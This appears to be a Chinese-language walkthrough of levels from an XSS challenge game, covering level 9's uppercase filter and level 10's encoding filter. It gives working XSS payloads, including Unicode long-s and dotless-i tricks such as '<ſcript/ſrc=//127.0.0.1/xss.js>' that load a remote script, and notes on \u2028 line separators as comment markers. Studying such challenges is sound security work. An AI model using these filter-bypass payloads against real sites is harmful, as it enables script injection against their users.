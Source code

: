 ```javascript
补充知识
Javascript 中 valid line separators 除了\r \n，还有:
\u2028 (Line Separator)
\u2029 (Paragraph Separator)
--> 在js中可以当作注释符(单行注释)

[\U2028]prompt(1)[\u2028]-->
一直不弹窗，字符打不出来？
```

#### 9. 特殊字符献奇招

```javascript
function escape(input) {
    // filter potential start-tags
    input = input.replace(/<([a-zA-Z])/g, '<_$1');
    // use all-caps for heading
    input = input.toUpperCase();

    // sample input: you shall not pass! => YOU SHALL NOT PASS!
    return '<h1>' + input + '</h1>';
}  
```

```javascript
code-breaking 中 easy-nodechr 类似，形近字绕过
https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html
混入了两个奇特的字符"ı"、"ſ"。
这两个字符的“大写”是I和S。也就是说
"ı".toUpperCase() == 'I'，
"ſ".toUpperCase() == 'S'。
通过这个小特性可以绕过一些限制。

<ſvg/onload=prompt(1)
此路不通，prompt 大写失效

unicode码包含了许多国家的语言文字，有一些语言的字母调用Upper函数进行大写，由于没有对应的大写文字，会自动转换为英文字母，而在url中，协议和域名是不区分大小写
<ſvg><ſcript/href=//127.0.0.1/xss.js>
<ſcript/ſrc=//127.0.0.1/xss.js></ſcript>
```

#### 10. 多次过滤帮倒忙

```javascript
function escape(input) {
    // (╯°□°）╯︵ ┻━┻
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    // ┬──┬ ﻿ノ( ゜-゜ノ) chill out bro
    input = input.replace(/'/g, '');
    // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
    return '<script>' + input + '</script> ';
}
```
